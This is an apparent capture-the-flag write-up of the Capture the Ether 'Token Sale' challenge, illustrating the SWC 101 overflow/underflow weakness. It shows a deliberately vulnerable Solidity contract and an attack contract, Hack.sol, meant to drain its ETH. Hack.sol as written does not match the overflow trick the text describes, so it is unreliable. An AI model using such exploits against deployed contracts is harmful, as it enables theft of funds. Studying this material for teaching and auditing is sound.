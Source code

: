 # SWC 101
Overflow and Underflow

### Example
## tokensalechallenge.sol

```solidity 
/*
 * @source: https://capturetheether.com/challenges/math/token-sale/
 * @author: Steve Marx
 */

pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] - numTokens>= 0);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```
Looking at the contract we can see that it is an older version of solidity
- where arithemetic underflow and overflow did not gave any errors, and 
- require logic `require(balanceOf[msg.sender] - numTokens >= 0)` indicates potential flawed logic/redundant check

using these two flaws we can exploit the contract and drain the ETH from the contract with the following Hack.

## Hack.sol

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITokenSaleChallenge {
    function sell(uint256 numTokens) external;
}

contract Hack {
    ITokenSaleChallenge private target;

    constructor(address _target) {
        target = ITokenSaleChallenge(_target);
        target.sell(1);
    }
}
```
